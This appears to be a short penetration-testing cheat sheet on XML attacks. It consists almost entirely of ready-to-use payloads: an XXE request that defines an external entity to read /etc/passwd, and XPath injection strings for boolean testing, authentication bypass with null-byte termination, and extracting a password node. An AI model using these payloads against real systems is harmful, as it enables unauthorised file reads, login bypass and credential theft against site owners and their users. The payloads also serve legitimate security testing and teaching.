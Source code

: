 ### Where you can control an entity
example:  
`/?xml=<test>blah</test>`  

We describe the entity and then call it:
`/?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>&x;</test>` # '`&`' must be URL encoded as `%26`

### xPath
Similar to SQL injection, can be tested/broken with boolean logic:
 * `' and '1'='1 and you should get the same result.`
 * `' or '1'='0 and you should get the same result.`
 * `' and '1'='0 and you should not get any result.`
 * `' or '1'='1 and you should get all results.`
 
 A complete attack query could like like:
 `admin']%00` or `admin' or 1=1]%00`
 
 To get information from childnodes (check readme for info on childnodes):
 `'%20or%201=1]/child::node()%00` - CURRENT childnoed
 `admin'%20or%201=1]/parent::*/child::node()%00` - ALL childnodes
 `admin']/parent::*/password%00` - info from the PASSWORD childnode
